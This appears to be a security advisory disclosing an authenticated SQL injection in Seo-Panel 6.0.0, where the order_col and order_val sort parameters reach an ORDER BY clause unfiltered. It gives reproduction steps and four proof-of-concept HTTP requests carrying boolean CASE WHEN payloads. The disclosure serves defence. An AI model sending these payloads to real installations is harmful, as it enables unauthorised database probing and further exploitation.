






# Seo-Panel `siteauditor.php` Link Report SQL Injection via Unsafe `order_col` and `order_val`

## 1. Vulnerability Description

A SQL injection issue exists in Seo-Panel's Site Auditor link report flow and can be triggered by **normal authenticated users**.

The vulnerable functionality is exposed through the following page:

```text
/siteauditor.php?sec=showreport&report_type=rp_links
```

In this flow, **both** user-controlled parameters `order_col` and `order_val` are directly incorporated into the SQL `ORDER BY` clause without a strict whitelist. As a result, a normal authenticated user can inject SQL expressions through either of these two parameters and influence backend query execution.

More specifically:

- `order_col` is assigned directly from user input and appended into `ORDER BY`
- `order_val` is also assigned directly from user input and appended into `ORDER BY`

This makes the link report query vulnerable to SQL injection through **two independent request parameters on the same page**.

- **Affected Version**: `Seo-Panel 6.0.0` confirmed
- **Attack Prerequisite**: Triggerable by normal authenticated users
- **Vulnerability Type**: SQL Injection
- **CWE ID**: CWE-89
- **Relevant Code**:
  - `siteauditor.php:79`
  - `controllers/siteauditor.ctrl.php:545`
  - `controllers/siteauditor.ctrl.php:779`
  - `controllers/siteauditor.ctrl.php:780`
  - `controllers/siteauditor.ctrl.php:799`

## 2. Reproduction Steps

### 2.1 Normal authenticated user

1. Log in to Seo-Panel as a normal user.

2. Ensure the account can access the Site Auditor feature and that at least one auditor project exists.

3. Open the Site Auditor link report page through:

   ```text
   /siteauditor.php?sec=showreport&report_type=rp_links&project_id=<valid_project_id>
   ```

   Example URL: http://localhost/siteauditor.php?sec=showreport&report_type=rp_links&project_id=1

   

4. First confirm the normal sorting behavior by requesting the report with legitimate parameters, for example:

   ```text
   order_col=score&order_val=DESC
   ```

   Example URL: http://localhost/siteauditor.php?sec=showreport&report_type=rp_links&project_id=1&order_col=score&order_val=DESC.Record the order of the first few entries in the report.

   

5. Then modify the `order_col` parameter to inject a simple conditional SQL expression:

   ```text
   CASE WHEN(1=1) THEN score ELSE external_links END
   ```

   In this case, the report will be sorted by `score`.

   

6. Next, modify the `order_col` parameter again using a false condition:

   ```text
   CASE WHEN(1=2) THEN score ELSE external_links END
   ```

   In this case, the report will be sorted by `external_links`.

   

7. Observe that the first record (or the first few records) in the returned report changes between the two requests. This confirms that attacker-controlled SQL expressions in `order_col` are **evaluated** by the database.

8. To verify that `order_val` is also injectable, set `order_col` to a stable field such as `page_authority`, and then inject a conditional expression through `order_val`.

9. Use the following `order_val` payload:

   ```text
   DESC,(CASE WHEN(1=1) THEN external_links ELSE score END) DESC
   ```

   This causes the report to prefer `external_links` for secondary ordering.

   

10. Then switch to:

   ```text
   DESC,(CASE WHEN(1=2) THEN external_links ELSE score END) DESC
   ```

   This causes the report to prefer `score` for secondary ordering.



11. Observe that the returned record order changes again between the two requests, confirming that `order_val` is also directly injectable.

### Expected Behavior During Verification

The application should only accept a strict whitelist of known sort columns and fixed sort directions such as `ASC` and `DESC`.

### Actual Behavior

The application accepts attacker-controlled SQL expressions through both `order_col` and `order_val`, and these expressions are evaluated by the database engine as part of the `ORDER BY` clause.

## 3. PoC

### PoC 1: Injection through `order_col` with a true condition

```http
GET /siteauditor.php?sec=showreport&report_type=rp_links&project_id=1&order_col=CASE%20WHEN(1=1)%20THEN%20score%20ELSE%20external_links%20END&order_val=DESC HTTP/1.1
Host: localhost
Cookie: PHPSESSID=<valid_normal_user_session>
Connection: close
```

### PoC 2: Injection through `order_col` with a false condition

```http
GET /siteauditor.php?sec=showreport&report_type=rp_links&project_id=1&order_col=CASE%20WHEN(1=2)%20THEN%20score%20ELSE%20external_links%20END&order_val=DESC HTTP/1.1
Host: localhost
Cookie: PHPSESSID=<valid_normal_user_session>
Connection: close
```

### PoC 3: Injection through `order_val` with a true condition

```http
GET /siteauditor.php?sec=showreport&report_type=rp_links&project_id=1&order_col=page_authority&order_val=DESC,(CASE%20WHEN(1=1)%20THEN%20external_links%20ELSE%20score%20END)%20DESC HTTP/1.1
Host: localhost
Cookie: PHPSESSID=<valid_normal_user_session>
Connection: close
```

### PoC 4: Injection through `order_val` with a false condition

```http
GET /siteauditor.php?sec=showreport&report_type=rp_links&project_id=1&order_col=page_authority&order_val=DESC,(CASE%20WHEN(1=2)%20THEN%20external_links%20ELSE%20score%20END)%20DESC HTTP/1.1
Host: localhost
Cookie: PHPSESSID=<valid_normal_user_session>
Connection: close
```

### Expected Response Behavior

The order of the returned report entries changes depending on the injected condition. For example:

- when `CASE WHEN(1=1)` is used, the report follows one sorting rule
- when `CASE WHEN(1=2)` is used, the report follows another sorting rule

This visible difference in record ordering confirms that attacker-controlled SQL expressions are being evaluated by the backend database.

### Notes

- A valid normal user session is required.
- The vulnerable page is:

  ```text
  /siteauditor.php?sec=showreport&report_type=rp_links
  ```

- Both of the following parameters can independently lead to SQL injection:
  - `order_col`
  - `order_val`

- These PoCs are intentionally non-destructive and are designed to produce a clear visual difference in sorting behavior for reporting purposes.

## 4. Impact

This issue allows a normal authenticated user to inject SQL expressions into the Site Auditor link report query through either `order_col` or `order_val`.

Impact includes:

- SQL injection in the `ORDER BY` clause
- Backend evaluation of attacker-controlled SQL expressions
- Unauthorized manipulation of report query logic
- A reliable primitive for further SQL injection research and exploitation
- Potential expansion into more advanced database-side attacks depending on the surrounding query context and database behavior

Although the payloads above are non-destructive and only demonstrate visible sorting changes, they confirm that **attacker-controlled SQL expressions are executed by the database engine**. Therefore, this is a real SQL injection vulnerability rather than a benign sorting anomaly.
